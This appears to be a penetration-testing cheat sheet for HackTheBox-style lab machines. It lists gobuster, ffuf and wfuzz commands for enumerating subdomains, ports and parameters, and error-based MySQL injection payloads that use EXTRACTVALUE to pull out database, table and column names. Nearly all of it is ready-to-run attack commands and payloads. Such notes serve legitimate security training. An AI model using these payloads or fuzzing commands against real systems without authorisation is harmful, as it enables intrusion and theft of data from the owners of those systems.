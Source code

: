 Filter by output length 
```
gobuster vhost -k -u https://monitored.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --exclude-length 301
```

```
ffuf -u http://linkvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.linkvortex.htb'
```
- Execute this and then add `-fs <SIZE #>`
### Error-Based SQLi

[MySQL INFORMATION_SCHEMA Table Reference](https://dev.mysql.com/doc/refman/8.4/en/information-schema-table-reference.html) ➡ [SCHEMATA Table](https://dev.mysql.com/doc/refman/8.4/en/information-schema-schemata-table.html)

```
1 AND EXTRACTVALUE(1,concat(0x0a, (select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1)))
```
- Expected to return 'information_schema'

Get database names
```
1 AND EXTRACTVALUE(1,concat(0x0a, (select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA)))
```

Get columns of a specific database
```
1 AND EXTRACTVALUE(1,concat(0x0a, (select group_concat(TABLE_NAME, ":", COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA = '<db_name>')))
```

Get table name (one row at a time) by toggling LIMIT n,1 
```
1 AND EXTRACTVALUE(1,concat(0x0a, (select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = '<db_name>' LIMIT 1,1)))
```

### Fuzzing

Fuzzing port numbers & filtering out 61 byte response
```
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fs 61
```

Fuzzing URL parameters with api wordlist
```
wfuzz -u 'http://10.10.10.185/index.php?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/api/actions.txt
```
Then use `--hl` `<output length #>`

Fuzzing parameters
```
ffuf -k -u https://streamio.htb/admin/?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=08sh76uacn9daglkqgk392eqvb' -fs 1678
```
